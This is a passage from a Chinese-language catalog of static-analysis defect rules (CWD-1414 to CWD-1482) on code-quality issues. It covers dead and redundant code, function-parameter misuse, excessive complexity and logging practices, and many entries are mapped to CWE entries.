产品包含的代码对执行不是必需的，即不进行状态更改，也没有改变数据或控制流的副作用，因此删除代码不会对功能或正确性产生任何影响。不相关的代码可能包括死代码、空代码块、由于优化而可能完全删除的代码等。

**语言: **JAVA,ARKTS,RUBY,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1414-000 无关代码

**业界缺陷**

- [CWE-1164: Irrelevant Code](https://cwe.mitre.org/data/definitions/1164.html)
---

# CWD-1415 空代码块

**描述**
源代码包含一个不包含任何代码的块。空代码块可能出现在条件、函数或方法定义、异常处理程序等的主体中，包括空异常块、空同步块。虽然空代码块可能是有意的，但也可能表示实现不完整、意外删除代码、意外的宏扩展等。对于某些编程语言和构造，语法可能允许空代码块。但块中缺少任何行为可能会违反约定或API，从而导致错误。

**语言: **JAVASCRIPT,TYPESCRIPT,ARKTS,KOTLIN,LUA,RUBY,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1415-000 空代码块

**业界缺陷**

- [CWE-1071: Empty Code Block](https://cwe.mitre.org/data/definitions/1071.html)
---

# CWD-1416 死代码

**描述**
永远无法执行的代码，如：不可达分支\代码、未使用的函数\接口、#if 0 代码等。

**语言: **C,CPP,JAVA,ARKTS,LUA,PHP,RESOURCE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1416-000 死代码

**业界缺陷**

- [CWE-561: Dead Code](https://cwe.mitre.org/data/definitions/561.html)
---

# CWD-1417 给变量赋的值从未被使用

**描述**
在不使用的情况下对变量进行赋值，代码给变量 `variable` 赋值，然后在不使用它的情况下又覆盖该变量的值。

**语言: **C,CPP,JAVA,ARKTS,MICROCODE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1417-000 给变量赋的值从未被使用

**业界缺陷**

- [CWE-563: Assignment to Variable without Use](https://cwe.mitre.org/data/definitions/563.html)
---

# CWD-1418 变量未使用

**描述**
定义的变量从未被使用。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,CANGJIE,ARKTS,LUA,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1418-000 变量未使用

---

# CWD-1419 包含用不到的头文件

**描述**
包含不需要的头文件会引入不必要的依赖，增加了模块或单元之间的耦合度，增加了代码复杂性，可维护性差。很多系统中头文件包含关系复杂。程序员为了省事起见，直接包含一切想到的头文件，甚至发布了一个god.h，其中包含了所有头文件，然后发布给各个项目组使用。这种只图一时省事的做法，不仅导致整个系统的编译时间恶化，而且代码的维护成本非常高。

**语言: **C,CPP,FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1419-000 包含用不到的头文件

---

# CWD-1420 包导入了不需要的变量和函数

**描述**
包导入不需要的变量和函数会增加代码的复杂性和冗余性。这可能会使代码更难以维护和理解。

**语言: **CPP,JAVA,PYTHON,GO,RUST,ARKTS,KOTLIN,LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1420-000 包导入了不需要的变量和函数

---

# CWD-1421 与和或逻辑运算中存在重复的表达式

**描述**
||和&&逻辑运算存在重复的表达式，如`a || a`、`a || b || a`等。

**语言: **C,CPP,ARKTS,LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1421-000 与和或逻辑运算中存在重复的表达式

---

# CWD-1422 布尔值冗余检查

**描述**
使用条件语句判断一个布尔变量并返回一个布尔值，而这个布尔值已经是由条件表达式本身决定的，增加了不必要的复杂性。例如：


- `if (expression) { return true; } else { return false; }`  可以简化为：`return expression;`- `return (b ? true : false);` 可以简化为：`return b;`简化后代码更简洁、更易读懂。
**语言: **PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1422-000 布尔值冗余检查

---

# CWD-1423 判断条件冗余

**描述**
在使用 instanceof 关键字时无需先检查是否为 null，因为当给定一个 null 参数时，instanceof 会返回 false。这意味着你可以直接使用 instanceof 进行类型检查，而不必先进行 null 检查。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1423-000 判断条件冗余

---

# CWD-1424 使用不必要的else

**描述**
else存在或不存在不影响代码逻辑，可能会导致代码的可读性下降。例如，在raise、return、continue等语句后使用不必要的else。if i == 7:return aelse: # 不符合：多余的elsereturn b

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1424-000 使用不必要的else

---

# CWD-1425 在两个分支中使用相同的代码

**描述**
用相同的代码在两个分支中。这种情况容易导致代码冗余和可维护性问题，同时也可能会导致逻辑错误。如：在编写if-else语句时，在两个分支中使用相同的代码；三目运算符两侧表达式相同。

**语言: **C,CPP,ARKTS,PHP,FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1425-000 在两个分支中使用相同的代码

---

# CWD-1426 语句或表达式未完成任何实际操作

**描述**
在代码中，有些语句或表达式不执行任何实际操作，也不产生任何实际效果。例如：


- 单独写变量名，如`var;`- 只写表达式，不赋值或使用结果，如`var + n;`- 只写比较语句，不执行任何操作，如`var == data;`- 自赋值，如`var = var;`这些语句或表达式可能是由于语句未写完整，也可能是编写错误。它们不会产生任何实际效果，且可能会导致运行错误。
**语言: **C,CPP,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1426-000 语句或表达式未完成任何实际操作

---

# CWD-1427 对程序运行没有任何作用的函数或方法

**描述**
对程序运行没有任何作用的函数或方法，仅仅消耗了 cpu 的时间，可能是由于程序设计或者实现上的错误导致的。如下所列的是一个函数对程序影响的副作用：


- 对文件，流等系统文件有读写操作- 改变了全局变量的值- 通过传入的引用对象改变了被引用对象的值- 使用了一个 volatile 对象- 产生了一个异常
**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1427-000 对程序运行没有任何作用的函数或方法

---

# CWD-1428 表达式始终为True或False

**描述**
产品包含的表达式的计算结果始终为false或true。

**语言: **C,CPP,TYPESCRIPT,RUST,ARKTS,KOTLIN,LUA,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1428-000 表达式始终为True或False

---

# CWD-1429 使用被禁止的代码

**描述**
软件开发中使用了明确禁止或不建议使用的代码、函数、API或技术的安全漏洞。这些禁止代码可能会引入安全风险、性能问题或其他问题，从而影响软件的整体安全性和可靠性。包括真实的或可疑的漏洞、安全使用的困难、出口管制或许可证要求等。为了降低漏洞的风险，可能会维护一个“禁止”函数列表，需避免使用这些函数，因为这些函数很难或不可能安全地使用。这个问题也会使产品更昂贵，更难以维护。使用被禁止的代码可能会导致程序遭受攻击，从而使攻击者能够获取敏感信息、执行恶意代码或者篡改应用程序的行为。因此，开发人员应该避免在应用程序中使用被禁止的代码。

**语言: **JAVASCRIPT,TYPESCRIPT,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1429-000 使用被禁止的代码

**业界缺陷**

- [CWE-1177: Use of Prohibited Code](https://cwe.mitre.org/data/definitions/1177.html)
---

# CWD-1430 不合理的函数设计或使用

**描述**
如果函数设计或使用不当，它可能无法执行预期的操作或无法满足特定的需求。因此，在编写或使用函数时，应该遵循最佳实践，并确保函数设计合理，使用正确。

**语言: **JAVASCRIPT,TYPESCRIPT,RUST,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1430-000 不合理的函数设计或使用

---

# CWD-1431 Iterator实现类的hasNext()方法中调用了next()方法

**描述**
调用Iterator.hasNext()不应该产生任何副作用，因此不应该改变迭代器的状态。Iterator.next()将迭代器前进了一项。因此在Iterator.hasNext()内部调用它会违反hasNext()的契约，并在生产环境中导致意外行为。

**语言: **JAVA,KOTLIN

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1431-000 Iterator实现类的hasNext()方法中调用了next()方法

---

# CWD-1432 不能抛出异常的函数无noexcept声明

**描述**
有些函数（如：C++语言中的delete 操作符、移动构造函数、移动赋值操作符、swap 函数、std::hash 的函数调用运算符、全局和线程局部`thread_local`变量的构造函数等）抛出异常，可能会导致 std::terminate。因此，建议这些函数添加 noexcept 限定词，以确保它们不抛出任何异常。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1432-000 不能抛出异常的函数无noexcept声明

---

# CWD-1433 对象或函数的声明与定义不一致

**描述**
函数或对象的声明和定义之间的不一致可能导致编程错误，或者使用错误。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1433-000 对象或函数的声明与定义不一致

---

# CWD-1434 函数参数需传入单个对象时未以引用取代指针

**描述**
使用指针传递单个对象会带来不必要的指针操作，如指针判空，并且函数内部可能修改指针指向目标，导致逻辑错误。而引用则更安全，因为它一定非空且不会再指向其他目标，无需检查空指针，从而简化代码和提高性能。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1434-000 函数参数需传入单个对象时未以引用取代指针

---

# CWD-1435 传递智能指针参数的类型不合理

**描述**
传递智能指针参数时，要根据实际场景选择合理的类型。例如std::unique_ptr 是 C++ 标准库中的智能指针类型，用于管理堆上分配的对象的所有权。由于 std::unique_ptr 不允许共享所有权，因此它总是独占所指向的对象。如果不合理地传递 std::unique_ptr，可能会导致不可预期的行为。因此，根据以下场景选择合理的参数类型：（1）值传递表示所有权转移。（2）左值引用传递表示替换其托管的对象。（3）右值引用传递，该引用被移动到调用函数内的std::unique_ptr对象中。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1435-000 传递智能指针参数的类型不合理

---

# CWD-1436 预期不变的函数参数值被修改

**描述**
虽然语法上允许修改函数参数的值，但这种修改可能会混淆或改变了参数本身的含义，其执行结果可能与程序员的期望不一致，会给代码开发、维护带来潜在的风险。例如，C语言的void Func(int input, int *output,){input = 1; output++;}


- 在函数内部修改 input 时，只改变了局部副本的值，而原始变量保持不变。- 在函数内部将指针 output 自增，将指针移动到下一个 int 位置，但不改变原始位置的值。
**语言: **C,CPP,JAVA,PYTHON,JAVASCRIPT,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1436-000 预期不变的函数参数值被修改

---

# CWD-1437 把C++类对象作为带有C风格链接修饰符的函数返回值

**描述**
在具有C链接的函数中使用C++类，C语言不支持这种功能。例如extern "C" std::string foo()。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1437-000 把C++类对象作为带有C风格链接修饰符的函数返回值

---

# CWD-1438 未合理使用尾置返回类型

**描述**
尾置返回类型是指在函数声明的尾部指定函数返回类型，例如auto fn(const T1 &lhs, const T2 &rhs) -> decltype(lhs + rhs)  { ... }，这可以使代码看起来更加简洁和易读，但如果滥用尾置返回类型，可能会使代码变得难以理解和维护。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1438-000 未合理使用尾置返回类型

---

# CWD-1439 函数返回类型与函数预期的行为不匹配

**描述**
如果函数返回类型与函数预期的行为不匹配，那么程序可能会出现错误或者不可预测的行为。例如，函数无返回值，但设计时需要有返回值；函数内只返回true或者false，但返回类型是int类型。

**语言: **C,CPP,JAVA,RUST

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1439-000 函数返回类型与函数预期的行为不匹配

---

# CWD-1440 函数使用不必要的命名返回值

**描述**
在函数中使用命名返回值，以不必要的API的冗长为代价来换取一个次要的实现简洁性。

**语言: **C,JAVA,GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1440-000 函数使用不必要的命名返回值

---

# CWD-1441 返回类型为非void的函数缺少return语句

**描述**
非void返回类型的函数的所有退出路径都应有明确的含表达式的 return 语句。如果缺少带有表达式的 return 语句，将导致未定义行为（而且编译器不会给出错误信息）。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1441-000 返回类型为非void的函数缺少return语句

---

# CWD-1442 设计函数时，先使用输出参数而不是返回值

**描述**
使用输出参数而不是返回值在设计函数时是一个不良实践。这种做法会使代码变得难以理解和阅读、函数的职责不清等问题。相比之下，使用返回值可以提高可读性，并且通常能够提供相同或更优的性能。

**语言: **C,CPP,JAVA,GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1442-000 设计函数时，先使用输出参数而不是返回值

---

# CWD-1443 函数未返回已被修改大小的slice参数对象

**描述**
在 Go 语言中，当函数以slice作为参数（而不是slice指针）并对其进行append操作时，必须返回修改后的slice，以避免数据错误。

**语言: **GO

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1443-000 函数未返回已被修改大小的slice参数对象

---

# CWD-1444 未使用return代替StopIteration来结束生成器

**描述**
从Python3.7开始，生成器退出时的StopIteration将会被解释器转换成RuntimeError。在结束生成器时，无论是是使用StopIteration还是RuntimeError来结束生成器，外层都要用try/except语句去捕捉，这样不仅会让代码变得不太优雅，还会增加其复杂性。因此，使用return语句来结束生成器的迭代，可以像处理其他函数返回值一样处理生成器的返回值，使代码更加清晰易懂。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1444-000 未使用return代替StopIteration来结束生成器

---

# CWD-1445 定义无类型检查的可变参数的函数

**描述**
定义带有可变参数的函数（如void Log(int priority, ...)），参数不会有任何类型检查，只能由程序员人工保证参数类型的正确性。为了避免类型错误，应使用重载、模板、可变参模板等方法代替。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1445-000 定义无类型检查的可变参数的函数

**业界缺陷**

- [CWE-1056: Invokable Control Element with Variadic Parameters](https://cwe.mitre.org/data/definitions/1056.html)
---

# CWD-1446 未使用std：：string表示字符串

**描述**
使用指针表示字符串需要手动管理内存，容易出问题，而std::string的内存自动管理。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1446-000 未使用std::string表示字符串

---

# CWD-1447 时区敏感的场景下，使用datetime时未显式指定时区

**描述**
datetime标准库在未指定tz可选参数时，会按照操作系统设置的时区显示时间。未显式指定时区的软件在跨时区使用时，会因为不同的系统时区设置导致预期外的问题。因此，建议在使用datetime标准库获取时间时，显式指定tz可选参数为希望使用的时区。

**语言: **C,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1447-000 时区敏感的场景下，使用datetime时未显式指定时区

---

# CWD-1448 未优先使用推荐的标准库

**描述**
优先使用推荐的标准库，其包含的函数、方法、常量等语义更明确，功能更完备。例如，C++语言中优先使用C++标准库的API，而不是C标准库，避免以写C代码的方式写C++代码；RUST语言建议使用标准库中预定义常量，精确度更高。

**语言: **C,CPP,JAVA,PYTHON,JAVASCRIPT,TYPESCRIPT,RUST

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1448-000 未优先使用推荐的标准库

---

# CWD-1449 函数装饰器使用不当

**描述**
一般的装饰器写法在功能上虽然没有问题，但是会导致被装饰函数对象的内部属性发生变化，造成了后续使用上的不便。因此，建议在装饰器的书写过程中，使用functools.wraps的写法定义函数装饰器，避免被装饰函数内部属性被破坏。

**语言: **PYTHON,TYPESCRIPT

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1449-000 函数装饰器使用不当

---

# CWD-1450 将Character串联到 StringBuffer.append(String)中

**描述**
在java中StringBuffer()的append()提供了Character和String两种方式，对于需要添加char类型的时候，避免使用String，例如：如下代码：（推荐，性能高）String text = new StringBuffer().append("some string").append('c').toString();（不推荐，性能低）String text = new StringBuffer().append("some string").append("c").toString();

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1450-000 将Character串联到 StringBuffer.append(String)中

---

# CWD-1451 格式字符串混用自动和手动字段编号

**描述**
格式字符串混用自动字段编号（例如“{}”）和手动字段编号（例如“{0}”）。避免混用，应全都使用自动编号或手动编号。例如：print("{0} {1}".format("hello", "world")) // 都使用手动编号print("{} {}".format("hello", "world")) // 都使用自动编号

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1451-000 格式字符串混用自动和手动字段编号

---

# CWD-1452 延时函数使用不当

**描述**
有些函数（sleep、usleep、TaskDelay等）可用于实现程序中的延时操作，不当使用可能会导致性能下降或使程序变得无响应。例如：在循环中使用sleep等函数导致超时。

**语言: **C,CPP,ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1452-000 延时函数使用不当

---

# CWD-1453 将没有返回值的函数调用结果赋值给变量

**描述**
将没有返回值的函数调用赋值给变量时，变量实际被赋值为None，没有意义，会导致代码冗余。

**语言: **PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1453-000 将没有返回值的函数调用结果赋值给变量

---

# CWD-1454 函数参数使用不正确

**描述**
调用函数时，使用了错误的参数，或未按函数使用手册/函数使用约定来指定函数参数。包括：错误的参数类型、错误的参数个数，错误的参数顺序。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1454-000 函数参数使用不正确

**业界缺陷**

- [CWE-628: Function Call with Incorrectly Specified Arguments](https://cwe.mitre.org/data/definitions/628.html)
---

# CWD-1455 参数顺序不正确的函数调用

**描述**
调用的函数的参数的顺序不正确，会产生不正确的行为。

**语言: **C,CPP,JAVA,PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1455-000 参数顺序不正确的函数调用

**业界缺陷**

- [CWE-683: Function Call With Incorrect Order of Arguments](https://cwe.mitre.org/data/definitions/683.html)
---

# CWD-1456 参数个数不正确的函数调用

**描述**
调用的函数的参数个数过多或过少，会产生不正确的行为。例如：当传递给格式化字符串函数的参数个数与格式字符串中的格式说明符个数不匹配时，也会导致未定义的行为。int x = 10; printf("%d %d", x);  // 错误：两个格式说明符，但只有一个参数"

**语言: **ARKTS,FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1456-000 参数个数不正确的函数调用

**业界缺陷**

- [CWE-685: Function Call With Incorrect Number of Arguments](https://cwe.mitre.org/data/definitions/685.html)
---

# CWD-1457 参数类型不正确的函数调用

**描述**
调用的函数的参数的类型错误，会产生不正确的行为。例如，当传递给格式化字符串函数的参数类型与格式字符串中的格式说明符不匹配时，会导致未定义的行为。int x = 10; printf("%s", x);  // 错误：%s 期望 char* 参数，但 x 是 int

**语言: **C,CPP,JAVA,PHP,FILE

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1457-000 参数类型不正确的函数调用

**业界缺陷**

- [CWE-686: Function Call With Incorrect Argument Type](https://cwe.mitre.org/data/definitions/686.html)
---

# CWD-1458 指定参数值不正确的函数调用

**描述**
调用的函数的参数的值错误，会产生不正确的行为。

**语言: **CPP,JAVA,PYTHON,ARKTS,LUA,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1458-000 指定参数值不正确的函数调用

**业界缺陷**

- [CWE-687: Function Call With Incorrectly Specified Argument Value](https://cwe.mitre.org/data/definitions/687.html)
---

# CWD-1459 代码复杂度过高

**描述**
代码过于复杂，使理解和/或维护产品变得更加困难，通过增加查找和/或修复漏洞的难度或耗时，间接影响了安全性。这也可能使引入漏洞变得更容易。这个问题会使产品性能变慢。如果攻击者可以访问相关代码，那么这个性能问题可能会引入漏洞。可能会导致以下问题：


1. 难以理解：代码过于复杂，可能会使得其他开发人员难以理解代码的逻辑，增加代码阅读和理解的难度。2. 难以维护：复杂的代码可能需要更多的时间和精力来调试和维护，这可能会导致代码的可维护性降低，增加代码错误的风险。3. 难以扩展：如果代码过于复杂，可能会使得添加新功能或修改现有功能变得更加困难，这可能会导致代码的扩展性降低，增加代码重构的难度。
为了避免代码复杂度过高，我们应该尽量遵循一些良好的编码习惯，比如遵循单一职责原则、减少代码的嵌套、尽量避免代码重复等。

**语言: **ARKTS,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1459-000 代码复杂度过高

**业界缺陷**

- [CWE-1120: Excessive Code Complexity](https://cwe.mitre.org/data/definitions/1120.html)
---

# CWD-1460 使用低效的遍历方法

**描述**
使用低效的数据遍历方法，耗费时间和计算资源。例如：1.重复遍历同一数据集合（例如：数组、表数据、列表等）可能会导致程序效率低下；2.未使用推荐的编译方法。如：Java提供的System.arraycopy()功能来复制数据对象，这样做可以避免出错，而且效率会更高；ArkTs提供了forEach()、map()等方法；JS推荐使用展开语法 … 或concat复制数组；Java遍历map时使用entrySet比keySet效率高，因为它可以同时获取key和value，避免了使用keySet再去获取value的额外操作，提高了代码的效率。

**语言: **CPP,JAVA,PYTHON,JAVASCRIPT,TYPESCRIPT,RUST,ARKTS,LUA,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1460-000 使用低效的遍历方法

---

# CWD-1461 具有循环依赖的模块

**描述**
两个或多个模块相互导入，创建循环依赖，可能导致错误或无限循环。例如包循环依赖、头文件循环依赖。

**语言: **C,CPP,JAVA,ARKTS,LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1461-000 具有循环依赖的模块

**业界缺陷**

- [CWE-1047: Modules with Circular Dependencies](https://cwe.mitre.org/data/definitions/1047.html)
---

# CWD-1462 推导式和生成器表达式过于复杂

**描述**
推导式和生成器表达式用于从现有的可迭代对象中创建一个新的列表、字典或集合，或者生成一个可迭代对象。但是，复杂的推导式和生成器表达式可能包含多个逻辑分支或条件语句，难以阅读和理解、维护困难，因此应尽量保持它们简洁和易读。

**语言: **PYTHON,JAVASCRIPT,LUA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1462-000 推导式和生成器表达式过于复杂

---

# CWD-1463 在控制性条件表达式中执行赋值操作

**描述**
控制性条件表达式常用于if、while、for、?:等条件判断中。在控制性条件表达式中执行赋值，常常导致意料之外的行为，且代码的可读性非常差。

**语言: **JAVASCRIPT,TYPESCRIPT,RUST,ARKTS,RUBY,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1463-000 在控制性条件表达式中执行赋值操作

---

# CWD-1464 嵌套使用 switch 语句

**描述**
嵌套的 switch 语句会增加代码的复杂性，降低代码的可读性和可维护性。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1464-000 嵌套使用 switch 语句

---

# CWD-1465 在一个函数内部定义另一个函数（函数嵌套定义）

**描述**
在一个函数内部定义另一个函数，会增加代码的复杂性。如：int main(){ int fun(){ ... } ... }

**语言: **ARKTS,KOTLIN,RUBY,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1465-000 在一个函数内部定义另一个函数（函数嵌套定义）

---

# CWD-1466 函数的参数过多

**描述**
函数或方法需要太多的参数来执行其功能，意味着其功能不单一，难以理解和维护。此外，由于参数太多，调用该函数或方法时也会变得更加困难，这可能会导致错误的发生。因此，应该限制参数个数。例如：C语言中函数的参数个数。建议不超过5个。

**语言: **C,CPP,JAVA,PYTHON,GO,JAVASCRIPT,TYPESCRIPT,ARKTS,LUA,PHP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1466-000 函数的参数过多

**业界缺陷**

- [CWE-1064: Invokable Control Element with Signature Containing an Excessive Number of Parameters](https://cwe.mitre.org/data/definitions/1064.html)
---

# CWD-1467 局部变量过多

**描述**
局部变量过多可能会导致代码的可读性和可维护性降低，同时也会占用过多的内存空间。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1467-000 局部变量过多

---

# CWD-1468 数据复杂度过高

**描述**
数据复杂度过高可能会导致以下问题:1.性能问题: 当数据量大或者数据结构复杂时，系统的处理能力会受到影响，可能会导致系统响应时间变慢，甚至出现系统崩溃的情况。2.稳定性问题: 数据关系复杂或者数据更新频繁可能会导致系统的稳定性受到影响，可能会出现系统崩溃、数据丢失或者数据不一致的情况。3.安全问题: 数据复杂度过高可能会导致系统的安全性受到影响，可能会出现数据泄漏、数据篡改或者数据被攻击的情况。为了避免数据复杂度过高缺陷解释，可以采取以下措施:1.优化数据结构: 通过优化数据结构，可以减少数据的复杂性，提高系统的处理能力。2.优化算法: 通过优化算法，可以提高系统的处理效率，减少系统的处理时间。3.优化数据库设计: 通过优化数据库设计，可以减少数据的复杂性，提高系统的处理能力。4.使用缓存技术: 通过使用缓存技术，可以减少系统对数据库的访问，提高系统的处理能力。5.使用分布式系统: 通过使用分布式系统，可以将数据分散到多个节点上，提高系统的处理能力。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1468-000 数据复杂度过高

**业界缺陷**

- [CWE-1093: Excessively Complex Data Representation](https://cwe.mitre.org/data/definitions/1093.html)
---

# CWD-1469 多重继承了过多的类

**描述**
多重继承时继承了多个父类，但是对父类的个数没有限制，导致代码复杂度过高。

**语言: **CPP

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1469-000 多重继承了过多的类

**业界缺陷**

- [CWE-1055: Multiple Inheritance from Concrete Classes](https://cwe.mitre.org/data/definitions/1055.html)
---

# CWD-1470 继承过深的类

**描述**
类的继承深度过深，CISQ 建议最大深度为7。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1470-000 继承过深的类

**业界缺陷**

- [CWE-1074: Class with Excessively Deep Inheritance](https://cwe.mitre.org/data/definitions/1074.html)
---

# CWD-1471 子类数量过多的类

**描述**
一个类包含过多的不必要的子类。CISQ建议最大子类10个。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1471-000 子类数量过多的类

**业界缺陷**

- [CWE-1086: Class with Excessive Number of Child Classes](https://cwe.mitre.org/data/definitions/1086.html)
---

# CWD-1472 可读性低的多级指针

**描述**
多级指针（如：int ***p; int8_t ** par7[]）使代码变得难以阅读和理解，增加了维护成本。特别是当指针的级数增加时，代码的可读性会急剧下降。当使用多级指针时，需要追踪指针的每一级，了解它们指向什么类型的数据，这增加了出错的可能性。

**语言: **CPP,RUST

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1472-000 可读性低的多级指针

---

# CWD-1473 不合理的日志信息记录

**描述**
日志信息记录存在多个问题，包括未分等级、未记录GeneralSecurityException及其子类异常、Logger类实例声明不正确等。这些问题可能导致错误信息难以阅读和理解、问题难以定位等风险。

**语言: **C,CPP,JAVA,PYTHON,SHELL,ARKTS

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1473-000 不合理的日志信息记录

---

# CWD-1474 日志工具Logger类的实例声明不正确

**描述**
对于工具类的实例，如果声明时并进行了初始化，应该声明为private static final，如果只是声明但未初始化，则应声明为private final。声明为private是出于访问封装的考虑，防止Logger类的实例对象被其他类非法使用；声明为static是为了防止重复new出Logger类的实例，造成资源的浪费，同时防止实例被序列化，造成安全风险（精心设计的library除外）；声明为final是因为在类的生命周期内无需变更Logger类的实例。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1474-000 日志工具Logger类的实例声明不正确

---

# CWD-1475 日志变量未使用static final修饰

**描述**
日志成员变量，要求静态，最终属性，日志创建参数类型与当前类类型保持一致，避免日志泛滥。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1475-000 日志变量未使用static final修饰

---

# CWD-1476 日志记录未分等级

**描述**
如果日志不分等级，则定位问题时，无法快速有效屏蔽大量低级别信息，给快速定位带来难度。日志可分为以下级别：trace（有的也叫verbose）、debug、info、warning、error、fatal。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1476-000 日志记录未分等级

---

# CWD-1477 未使用Facade模式的日志框架

**描述**
专用日志工具与控制台打印相比，提供了更丰富的日志记录功能，且使用更加简单。日志打印推荐使用Facade模式的日志框架，如第三方slf4j、产品自研日志框架等，不要进行控制台打印（如：Java语言的System.out、System.err、C语言的printf、shell语言的echo 等）。

**语言: **C,CPP,JAVA,PYTHON,GO,SHELL,ARKTS,XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1477-000 未使用Facade模式的日志框架

---

# CWD-1478 未使用懒插值的能力记录日志

**描述**
懒插值特性，在代码执行时进行format_args的求值和日志文本的格式化，相较于缺省的及早求值计算方式，能够节省一定的计算时间和存储空间。建议尽量使用懒插值的能力记录日志。

**语言: **PYTHON

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1478-000 未使用懒插值的能力记录日志

---

# CWD-1479 日志缺失详细消息message

**描述**
为了确保完整的堆栈跟踪被打印出来，可以使用带有两个参数的日志记录语句：一个是详细消息message字符串，另一个是Throwable（异常）。例如：public RuntimeException(String message, Throwable cause) {super(message, cause);}

**语言: **XML

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1479-000 日志缺失详细消息message

---

# CWD-1480 未对GeneralSecurityException及其子类异常记录日志

**描述**
java.security.GeneralSecurityException是一个一般安全异常类，其子类定义了各种跟安全相关的异常，比如加解密操作相关异常、证书验证相关异常。当系统中抛出这些异常时，表示系统中的一些安全相关的功能出现问题或遇到一些非预期的场景。所以对于这些异常建议在日志中进行详细记录，方便后续进行问题分析定位及对系统的安全性进行优化完善。这些异常中如果含有秘钥、口令等敏感信息时，记录日志前应该对这些敏感信息进行过滤。java.security 中 GeneralSecurityException 的子类包括： DigestException 、 InvalidAlgorithmParameterException 、 InvalidKeyException 、 KeyException 、 KeyManagementException 、 KeyStoreException 、 NoSuchAlgorithmException 、 NoSuchProviderException 、 SignatureException 、 UnrecoverableEntryException 、 UnrecoverableKeyException 等。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1480-000 未对GeneralSecurityException及其子类异常记录日志

---

# CWD-1481 仅将定位信息打印到控制台，未使用存储介质记录

**描述**
仅通过控制台等输出不利于定位问题，缺乏灵活性、可扩展性和可维护性，同时也存在安全性问题。通过日志记录，可以很好的解决这个问题

**语言: **CPP,PYTHON,JAVASCRIPT,SHELL,ARKTS,LUA,RUBY

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1481-000 仅将定位信息打印到控制台，未使用存储介质记录

---

# CWD-1482 日志输出时未使用占位符的方式进行字符串拼接

**描述**
